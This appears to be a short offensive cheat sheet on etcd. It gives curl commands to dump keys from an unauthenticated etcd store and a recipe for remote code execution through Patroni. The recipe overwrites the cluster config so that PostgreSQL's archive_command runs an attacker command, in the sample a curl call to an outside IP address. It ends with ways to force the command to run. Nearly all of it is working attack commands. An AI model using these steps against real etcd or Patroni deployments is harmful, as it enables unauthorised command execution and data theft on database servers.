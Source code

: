 # Etcd

### Check v2 api keys

`curl -s localhost:2379/v2/keys/?recursive=true | jq`&#x20;

### Check v3 api keys

`curl -k http://127.0.0.1:2379/v3/kv/range -X POST -d '{"key": "AA==", "range_end": "AA=="}'`



### Update Patroni cluster config for RCE

**Get config**

`curl -s http://localhost:2379/v2/keys/service/<CLUSTER_NAME>/config | jq`

**Update config**

`curl -s -X PUT http://localhost:2379/v2/keys/service/<CLUSTER_NAME>/config`\
`-d value="$(jq -c . config.json)" | jq`

_or with url encode_

`curl -X PUT http://localhost:2379/v2/keys/service/test-cluster/config --data-urlencode value@config.json | jq`

_config.json:_

```json
{
  "ttl": 30,
  "loop_wait": 10,
  "retry_timeout": 10,
  "maximum_lag_on_failover": 1048576,
  "postgresql": {
    "use_pg_rewind": true,
    "parameters": {
      "archive_command": "curl http://158.160.117.132:1337", // command for RCE
      "archive_mode": "always",
      "archive_timeout": "10", // period for command execution
      "max_connections": 550,
      "max_locks_per_transaction": 512,
      "max_worker_processes": 27
    }
  }
}
```

Archive command is needed to backup wal in postgres. Every time a certain amount of data is reached (can also be configured in the config) wal is archived by executing `archive_command`

_the archive\_command trigger requires_\
1\) Generate enough traffic to write to the database

2\) Trigger `archive_timeout`,

3\) Execute the `SELECT pg_switch_wal();` command, for force archives the wal
